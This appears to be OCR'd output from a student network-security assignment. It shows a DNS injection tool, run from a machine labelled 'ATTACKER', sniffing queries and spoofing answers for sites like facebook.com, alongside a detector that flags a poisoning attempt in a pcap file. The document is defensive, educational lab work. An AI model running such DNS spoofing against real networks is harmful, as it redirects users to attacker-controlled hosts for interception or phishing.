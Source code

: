 				ubuntu@ubuntu:~/Downloads/111462188_Chakradeo$ dig @109.69.8.51 facebook.com

				; <<>> DiG 9.10.3-P4-Ubuntu <<>> @109.69.8.51 facebook.com
				; (1 server found)
				;; global options: +cmd
				;; Got answer:
				;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 38047
				;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
				;; WARNING: recursion requested but not available

				;; QUESTION SECTION:
				;facebook.com.            IN    A

				;; ANSWER SECTION:
				facebook.com.        10    IN    A    10.255.35.87

				;; Query time: 6 msec
				;; SERVER: 109.69.8.51#53(109.69.8.51)
				;; WHEN: Sat Dec 09 05:18:25 UTC 2017
				;; MSG SIZE  rcvd: 58
 
		-ATTACKER: 
			 
			ubuntu@ubuntu:~/Downloads/111462188_Chakradeo$ sudo python dnsinject.py 
			No interface specified
			Default Interface:  enp0s3

			---------------Sniffed packet----------------
			10.255.42.54 -> 109.69.8.51 : www.stackoverflow.com
			Host file not entered, spoof with local IP:  10.255.35.87
			.
			Sent 1 packets.
			DNS Ans "10.255.35.87" 

			---------------Sniffed packet----------------
			10.255.42.54 -> 109.69.8.51 : www.facebook.com
			Host file not entered, spoof with local IP:  10.255.35.87
			.
			Sent 1 packets.
			DNS Ans "10.255.35.87" 

 
 
 
	2.Analysis of Pcap Capture File 
	
	-PCAP FILE: dns.pcap
	 
	-Output: 
		mihir@mihir-Inspiron-15-7000-Gaming:~/Desktop/NetSec/111462188_HW4$ sudo python dnsdetect.py -r dns.pcap 
		No interface specified 
		dns.pcap 
		Analyzing tracefile 
		2017-12-07 01:05:45 DNS poisoning attempt 
		TXID  56344   www.yandex.com. 
		Answer1  213.180.204.62 
		Answer2  192.168.66.6 
		  